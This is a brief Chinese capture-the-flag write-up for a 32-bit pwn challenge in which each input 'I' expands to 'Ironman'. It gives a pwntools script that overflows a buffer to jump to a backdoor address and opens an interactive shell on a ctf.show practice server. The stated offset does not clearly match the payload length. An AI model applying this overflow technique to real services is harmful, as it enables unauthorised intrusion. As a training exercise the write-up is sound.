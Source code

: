 # 挑战简介
I‘m IronMan

# 思路
从这边的题开始，就不再是基础的普及了，而是比赛中会遇到的题

此题读取输入时，读取到'I'则会输出ironman，也就是说一个I=Ironman 7个字符  

而offset=0x6c+0x8

所以  
```
from pwn import *
from LibcSearcher import *
context.log_level = "debug"

p= remote("pwn.challenge.ctf.show",28151)
elf = ELF('.\pwn')

back_room = p32(0x804902E)

payload = b'I'*0x10 + back_room

print(payload)

p.sendline(payload)

p.interactive()

```
